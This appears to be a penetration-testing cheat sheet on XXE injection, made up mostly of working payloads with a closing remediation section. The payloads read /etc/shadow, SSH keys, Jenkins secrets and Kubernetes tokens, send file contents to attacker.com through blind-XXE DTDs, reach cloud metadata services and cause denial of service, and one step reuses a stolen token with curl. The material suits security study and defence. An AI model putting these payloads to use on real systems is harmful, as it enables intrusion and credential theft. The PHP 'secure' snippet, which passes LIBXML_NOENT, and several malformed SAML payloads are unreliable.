







# XML External Entity (XXE) Injection

## Shortcut

- Find data entry points that you can use to submit XML data.
- Determine whether the entry point is a candidate for a classic or blind XXE. The endpoint might be vulnerable to classic XXE if it returns the parsed XML data in the HTTP response. If the endpoint does not return results, it might still be vulnerable to blind XXE, and you should set up a callback listener for your tests.
- Try out a few test payloads to see if the parser is improperly configured. In the case of classic XXE, you can check whether the parser is processing external entities. In the case of blind XXE, you can make the server send requests to your callback listener to see if you can trigger outbound interaction.
- Try to exfiltrate a common system file, like /etc/hostname.
- You can also try to retrieve some more sensitive system files, like /etc/shadow or ~/.bash_history.
- If you cannot exfiltrate the entire file with a simple XXE payload, try to use an alternative data exfiltration method.
- See if you can launch an SSRF attack using the XXE.

## Mechanisms

XML External Entity (XXE) is a vulnerability that occurs when XML parsers process external entity references within XML documents. XXE attacks target applications that parse XML input and can lead to:

- Disclosure of confidential files and data
- Server-side request forgery (SSRF)
- Denial of service attacks
- Remote code execution in some cases



XXE vulnerabilities arise from XML's Document Type Definition (DTD) feature, which allows defining entities that can reference external resources. When a vulnerable XML parser processes these entities, it retrieves and includes the external resources, potentially exposing sensitive information.

In practice, full remote code execution rarely stems from XXE alone; it typically requires language-specific gadgets—such as PHP's `expect://` wrapper or Java deserialization sinks—which XXE merely helps reach.



Types of XXE attacks include:

- **Classic XXE**: Direct extraction of data visible in responses
- **Blind XXE**: No direct output, but data can be exfiltrated through out-of-band techniques
- **Error-based XXE**: Leveraging error messages to extract data
- **XInclude-based XXE**: Using XInclude when direct DTD access is restricted



## Hunt

### Finding XXE Vulnerabilities

#### Additional Discovery Methods

- Convert content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml"
- Check file uploads that allow docx/xlsx/pdf/zip - unzip the package and add XML code into the XML files
- Test SVG file uploads for XML injection
- Check RSS feeds functionality for XML injection
- Fuzz for /soap API endpoints
- Test SSO integration points for XML injection in SAML requests/responses

#### Identify XML Injection Points



- **API Endpoints**: Look for endpoints accepting XML data
- **File Uploads**: Features accepting XML-based files (DOCX, SVG, XML, etc.)
- **Format Conversion**: Services converting to/from XML formats
- **Legacy Interfaces**: SOAP web services, XML-RPC
- **Hidden XML Parsers**: Look for parameters that might be processed as XML behind the scenes
- **Content Type Conversion**: Endpoints that accept JSON but may process XML with proper Content-Type

#### Test Basic XXE Patterns

For each potential injection point, test with simple payloads:

- **Classic XXE (file retrieval)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```

  or

  ```xml
  <!DOCTYPE ase [ <!ENTITY %test SYSTEM "http://sib.com/sib"> %test; ]>
  <example>&test;</example>
  ```

- **Blind XXE (out-of-band detection)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
    %xxe;
  ]>
  <root>test</root>
  ```

- **XInclude attack** (when unable to define a DTD):
  ```xml
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </root>
  ```

#### Billion Laughs Attack Steps

1. Capture the request in your proxy tool
2. Send it to repeater and convert body to XML format
3. Check the Accept header and modify to Application/xml if needed
4. Convert JSON to XML if no direct XML input is possible
5. Insert the billion laughs payload between XML tags
6. Adjust entity references (lol1 to lol9) to control DoS intensity

#### Check Alternative XML Formats

- **SVG files**:

  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname" >
  ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```

  or

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
    <!ENTITY test SYSTEM "file:///etc/shadow">
  ]>
  <svg width="500" height="500">
    <circle cx="50" cy="50" r="40" fill="blue" />
    <text font-size="16" x="0" y="16">&test;</text>
  </svg>
  ```

- **DOCX/XLSX files**: Modify internal XML files (e.g., word/document.xml)
- **SOAP messages**: Test XXE in SOAP envelope

#### SAML 2.0 XXE Testing

SAML assertions are prime XXE targets. Test both requests and responses:

**AuthnRequest XXE:**

```xml
<samlp:AuthnRequest
  xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
  xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
  ID="_xxe" Version="2.0" IssueInstant="2025-01-01T00:00:00Z">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <saml:Issuer>&xxe;</saml:Issuer>
</samlp:AuthnRequest>
```

**Response Assertion XXE:**

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil">]>
  <saml:Assertion>
    <saml:AttributeValue>&xxe;</saml:AttributeValue>
  </saml:Assertion>
</samlp:Response>
```

**Encrypted Assertion XXE (Response Wrapping):**

```xml
<!-- Inject XXE before encryption, Service Provider decrypts and processes -->
<saml:EncryptedAssertion>
  <!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"> %dtd;]>
  <EncryptedData>...</EncryptedData>
</saml:EncryptedAssertion>
```

#### E-book Format Exploitation (EPUB)

EPUB files are ZIP archives containing XML. Target library management systems and e-reader apps:

```xml
<!-- content.opf inside EPUB -->
<?xml version="1.0"?>
<!DOCTYPE package [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<package xmlns="http://www.idpf.org/2007/opf" version="3.0">
  <metadata>
    <dc:title>&xxe;</dc:title>
  </metadata>
</package>
```

**Attack workflow:**

1. Create legitimate EPUB file
2. Extract contents (it's a ZIP)
3. Inject XXE into `META-INF/container.xml` or `content.opf`
4. Re-zip and upload to target (library systems, e-commerce platforms)

#### Apple Universal Links XXE

iOS deep linking configuration files:

```xml
<!-- apple-app-site-association generated from XML -->
<?xml version="1.0"?>
<!DOCTYPE config [
  <!ENTITY xxe SYSTEM "file:///var/mobile/Containers/Data/Application/config.plist">
]>
<config>
  <applinks>&xxe;</applinks>
</config>
```

### Advanced XXE Hunting

#### Parameter Entity Testing

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<data>test</data>
```

#### Error-Based XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

#### XXE via Content-Type Manipulation

Try changing Content-Type header from:

```
Content-Type: application/json
```

to:

```
Content-Type: application/xml
```

or:

```
Content-Type: text/xml
```

## Chaining and Escalation

### Cloud-Native & Kubernetes XXE

#### Kubernetes Admission Webhook XXE

ValidatingWebhookConfiguration and MutatingWebhookConfiguration receive XML-formatted requests:

```yaml
# Vulnerable admission webhook
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  annotations:
    # Webhook receives and parses this XML
    config: |
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///var/run/secrets/kubernetes.io/serviceaccount/token">
      ]>
      <config>&xxe;</config>
```

**Exploitation flow:**

```bash
# 1. Create pod with XXE payload in annotation
kubectl apply -f evil-pod.yaml

# 2. Admission webhook receives XML, processes with vulnerable parser
# 3. Service account token exfiltrated

# 4. Use token for privilege escalation
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat token)"
```

**ConfigMap XXE:**

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: xxe-config
data:
  config.xml: |
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/kubernetes/manifests/kube-apiserver.yaml">]>
    <config>&xxe;</config>
```

#### CI/CD Pipeline XXE

**Jenkins XML Config Parsing:**

```xml
<!-- config.xml for Jenkins job -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "file:///var/jenkins_home/secrets/master.key">
]>
<project>
  <description>&xxe;</description>
</project>
```

**GitLab CI Artifact Processing:**

```yaml
# .gitlab-ci.yml
test:
  script:
    - echo '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/gitlab-runner/config.toml">]><root>&xxe;</root>' > report.xml
  artifacts:
    reports:
      junit: report.xml # Parsed by GitLab
```

**GitHub Actions Workflow:**

```yaml
# Vulnerable action that processes XML artifacts
- name: Parse XML Report
  uses: vulnerable/xml-parser@v1
  with:
    xml-file: |
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///home/runner/.ssh/id_rsa">]>
      <testsuites>&xxe;</testsuites>
```

**Maven/Gradle Dependency Confusion:**

```xml
<!-- malicious pom.xml in supply chain -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=">
]>
<project>
  <modelVersion>4.0.0</modelVersion>
  <name>&xxe;</name>
</project>
```

### Parser Misconfigurations

- **DTD Processing Enabled**: XML parsers with DTD processing enabled
- **External Entity Resolution**: Parsers allowing external entity references
- **XInclude Support**: Enabled processing of XInclude statements
- **Missing Entity Validation**: No validation of entity expansion

### File Disclosure via XXE

- **Local File Access**: Reading sensitive system files
  - `/etc/passwd` (Unix user information)
  - `/etc/shadow` (password hashes on Linux)
  - `C:\Windows\system32\drivers\etc\hosts` (Windows hosts file)
  - Application configuration files
  - Source code files
  - Database credentials

### SSRF via XXE



- **Internal Network Access**: Scanning internal systems
- **Cloud Metadata Access**: Accessing metadata services

  **AWS IMDSv2** (Token-based, harder via XXE):

  ```xml
  <!-- IMDSv1 still works in legacy environments -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name">]>

  <!-- IMDSv2 requires PUT request for token first -->
  <!-- Most XML parsers can't make PUT requests, limiting XXE exploitation -->
  ```

  **Azure Instance Metadata**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">]>
  <!-- Requires Metadata: true header, may fail in XXE -->
  ```

  **GCP Metadata v2 (2024+)**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token">]>
  <!-- Now requires Metadata-Flavor: Google header -->
  <!-- Classic XXE can't set custom headers, use SSRF chain -->
  ```

  **Workarounds for header-protected metadata:**

  ```xml
  <!-- Use jar:// protocol (Java) to bypass some restrictions -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://metadata.google.internal!/computeMetadata/v1/instance/hostname">]>

  <!-- Or chain with open redirect on same domain -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://vulnerable-app.com/redirect?url=http://169.254.169.254/latest/meta-data/">]>
  ```

### Denial of Service

- **Billion Laughs Attack**: Exponential entity expansion

  ```xml
  <!DOCTYPE data [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ]>
  <data>&lol3;</data>
  ```

- **Quadratic Blowup Attack**: Large string repeating

  ```xml
  <!DOCTYPE data [
    <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
  ]>
  <data>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</data>
  ```

- **External Resource DoS**: Loading large or never-ending external resources

## Bypass Techniques

### Filter Evasion Techniques

- **Case Variation**:

  ```xml
  <!docTypE test [ <!ENTity xxe SYSTEM "file:///etc/passwd"> ]>
  ```

- **Alternative Protocol Schemes**:

  ```
  file:///
  php://filter/convert.base64-encode/resource=
  gopher://
  jar://
  netdoc://
  ```

- **URL Encoding**:
  ```xml
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:%2F%2F%2Fetc%2Fpasswd"> ]>
  ```

### XXE in CDATA Sections

```xml
<![CDATA[<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
]>]]>
```

### XXE via XML Namespace

```xml
<ns1:root xmlns:ns1="http://example.com">
  <ns1:data xmlns:ns1="http://example.com" xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </ns1:data>
</ns1:root>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## Methodologies

### Tools

#### XXE Detection and Exploitation Tools

- **OWASP ZAP**: XML External Entity scanner
- **Burp Suite Pro**: XXE scanner extension
- **XXEinjector**: Automated XXE testing tool
- **XXE-FTP**: Out-of-band XXE exploitation framework
- **dtd.gen**: DTD generator for XXE exfiltration
- **oxml_sec**: Tool for testing XXE in OOXML files (docx, xlsx, pptx)
- **Burp Suite Pro 2025.2+ (“Burp AI”)**: automatically chains scanner-found XXE with out-of-band callbacks for quicker triage.
- **Semgrep rules (java-xxe, python-xxe)**: static analysis that flags un-hardened XML parser usage.

#### Setup Tools for Out-of-Band Testing

- **Interactsh**: Interaction collection server
- **Burp Collaborator**: For out-of-band data detection
- **XSS Hunter**: Can be repurposed for XXE callbacks
- **SimpleHTTPServer**: Quick Python HTTP server setup

### Testing Methodologies



#### Basic Testing Process

1. **Identify XML Processing**: Locate endpoints accepting XML input
2. **Setup Monitoring**: Prepare out-of-band detection for blind XXE
3. **Injection Testing**: Test with basic XXE payloads
4. **Result Analysis**: Check for direct data exposure or callbacks
5. **Vulnerability Confirmation**: Attempt to read a harmless file like `/etc/hostname`

#### Advanced Exploitation Techniques

##### Data Exfiltration (for Blind XXE)



1. Host a malicious DTD file on your server:

   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
   %exfil;
   ```

2. Use an XXE payload that references your DTD:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [
     <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
     %dtd;
   ]>
   <data>test</data>
   ```

##### XXE OOB with DTD and PHP filter

Payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://your-attacker-server.com/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External DTD (`http://your-attacker-server.com/dtd.xml`):

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://your-attacker-server.com/log.php?data=%data;'>">
```

##### Error-Based Exfiltration

1. Host a malicious DTD with error-based exfiltration:
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
   %eval;
   %error;
   ```

##### XXE for SSRF

Use XXE to trigger internal requests:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://internal-service:8080/admin"> ]>
```

##### XXE Inside SOAP

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

##### XXE PoC Examples

```xml
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```

##### XXE via File Upload (SVG Example)

Create an SVG file with the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

Upload it where SVG is allowed (e.g., profile picture, comment attachment).

#### Comprehensive XXE Testing Checklist

1. **Basic entity testing**:
   - Test file access via `file://` protocol
   - Test network access via `http://` protocol

2. **Content delivery**:
   - Direct XXE with immediate results
   - Out-of-band XXE with remote DTD
   - Error-based XXE for data extraction

3. **Protocol testing**:
   - Test various protocols (file, http, https, ftp, etc.)
   - Attempt restricted protocol access

4. **Format variations**:
   - Test XXE in SVG uploads
   - Test XXE in document formats (DOCX, XLSX, PDF)
   - Test SOAP/XML-RPC interfaces

5. **Bypasses**:
   - Try character encoding tricks
   - Use nested entities
   - Apply URL encoding
   - Test with namespace manipulations

## Remediation Recommendations

- Disable DTD processing completely if possible
- Disable external entity resolution
- Implement proper input validation
- Use safe XML parsers that disable XXE by default
- Apply patch management to XML parsers
- Use newer API formats like JSON where feasible
- **Network egress allow-list**: Restrict outbound traffic from XML-parsing hosts to block blind-XXE callbacks.
- **API Gateway XML Protection**: Implement XML threat protection at the gateway layer

### API Gateway XML Threat Protection

#### AWS API Gateway

```yaml
# API Gateway Request Validator
RequestValidator:
  Type: AWS::ApiGateway::RequestValidator
  Properties:
    ValidateRequestBody: true
    ValidateRequestParameters: true

# Lambda authorizer to inspect XML
def lambda_handler(event, context):
    body = event.get('body', '')

    # Block DTD declarations
    if '<!DOCTYPE' in body or '<!ENTITY' in body:
        return {
            'statusCode': 400,
            'body': 'XML DTD not allowed'
        }

    # Size limit
    if len(body) > 100000:  # 100KB
        return {
            'statusCode': 413,
            'body': 'Request too large'
        }
```

#### Kong Gateway

```yaml
plugins:
  - name: xml-threat-protection
    config:
      source_size_limit: 1000000 # 1MB max
      name_size_limit: 255 # Max element name length
      child_count_limit: 100 # Max child elements
      attribute_count_limit: 50 # Max attributes per element
      entity_expansion_limit: 0 # Disable entity expansion
      external_entity_limit: 0 # Disable external entities
      dtd_processing: false # Disable DTD
```

#### Apigee Edge

```xml
<!-- XMLThreatProtection policy -->
<XMLThreatProtection name="XML-Threat-Protection">
  <Source>request</Source>
  <StructureLimits>
    <NodeDepth>10</NodeDepth>
    <AttributeCountPerElement>5</AttributeCountPerElement>
    <NamespaceCountPerElement>3</NamespaceCountPerElement>
    <ChildCount includeComment="true" includeElement="true" includeProcessingInstruction="true" includeText="true">10</ChildCount>
  </StructureLimits>
  <ValueLimits>
    <Text>1000</Text>
    <Attribute>100</Attribute>
    <NamespaceURI>100</NamespaceURI>
    <Comment>500</Comment>
    <ProcessingInstructionData>500</ProcessingInstructionData>
  </ValueLimits>
</XMLThreatProtection>
```

#### Nginx + ModSecurity

```nginx
# ModSecurity rules for XXE
SecRule REQUEST_BODY "@rx <!ENTITY" \
    "id:1000,phase:2,deny,status:403,msg:'XXE Attack Detected'"

SecRule REQUEST_BODY "@rx <!DOCTYPE.*\[" \
    "id:1001,phase:2,deny,status:403,msg:'DTD Declaration Blocked'"
```

### Parser default hardening (2024-2025)

- **libxml2 ≥ 2.13**: `XML_PARSE_NO_XXE` disables all external entity resolution by default.
- **Python ≥ 3.13**: standard `xml.*` modules forbid external entities; enable only via `feature_external_ges`.
- **.NET 8**: project templates set `XmlReaderSettings.DtdProcessing = Prohibit`.
- **Java 22**: `XMLConstants.FEATURE_SECURE_PROCESSING` is enabled and `external-general-entities` is `false`.

### Cloud-metadata nuance

AWS IMDSv2 now requires a session token. To exploit metadata via XXE you must first obtain a token with  
`PUT /latest/api/token` and then pass it in the `X-aws-ec2-metadata-token` header of subsequent requests.

### Secure Parser Configuration (practical snippets)

```java
// Java (SAX/StAX/DOM)
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

```python
# Python – prefer defusedxml
from defusedxml.ElementTree import fromstring
fromstring(xml_data)
```

```csharp
// .NET
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
using var reader = XmlReader.Create(stream, settings);
```

```go
// Go – standard encoding/xml does not resolve external entities
// but avoid streaming untrusted data into custom resolvers
type Safe struct{ }
```

```php
// PHP – libxml
$old = libxml_disable_entity_loader(true);
$xml = simplexml_load_string($data, "SimpleXMLElement", LIBXML_NONET | LIBXML_NOENT);
libxml_disable_entity_loader($old);
```
